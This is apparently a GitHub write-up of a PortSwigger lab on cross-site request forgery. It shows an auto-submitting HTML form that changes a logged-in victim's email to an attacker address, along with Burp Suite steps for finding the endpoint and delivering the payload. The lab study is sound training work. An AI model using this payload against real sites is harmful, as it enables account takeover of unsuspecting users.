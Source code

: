 # CSRF vulnerability with no defenses

## Scenario
- Victim is currently logged into the vulnerable site
- Attacker sends malicious link to user \
NOTE: This is simulated via the exploit server in portswigger
- User clicks on the link
- The POST request is sent on behalf of the attacker
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Attackology via BurpSuite Community edition and Expxloit server
1. Logged in as the user given in the lab
2. Pulled BurpSuite to intercept the traffic during the email change process
3. Deliberately changed the email of the account to determine the endpoint and method of the vulnerable email change functionality
![image](https://user-images.githubusercontent.com/64616459/148880204-3d9197f1-0a90-4f8e-a1bd-bc684e7be5c7.png)
4. In BurpSuite, looked at the HTTP history to look fo the email change endpoint and sent it to repeater
![image](https://user-images.githubusercontent.com/64616459/148880252-68b3abc9-d257-4229-91de-1719cbabf9c1.png)
5. Went to the exploit server given in the lab and added the endpoint to the form 
6. ```document.forms[0].submit``` automatically sends the POST request to the vulnerable site
![image](https://user-images.githubusercontent.com/64616459/148880927-432779d3-1121-4d39-be79-e44035108a1c.png)
7. Send the payload to the victim
![image](https://user-images.githubusercontent.com/64616459/148880701-4820a8b8-ae53-4101-bf44-09c7895fab19.png)
8. Make the email was changed after sending the payload
![image](https://user-images.githubusercontent.com/64616459/148881951-8cf931c3-f831-46be-af02-3d1baa891fc0.png)


## Reference 
Lab: CSRF vulnerability with no defenses \
https://portswigger.net/web-security/csrf/lab-no-defenses

Cross-site request forgery (CSRF) \
https://portswigger.net/web-security/csrf

CSRF - Lab #1 CSRF vulnerability with no defenses | Long Version \
https://www.youtube.com/watch?v=BBosVSNiJdM
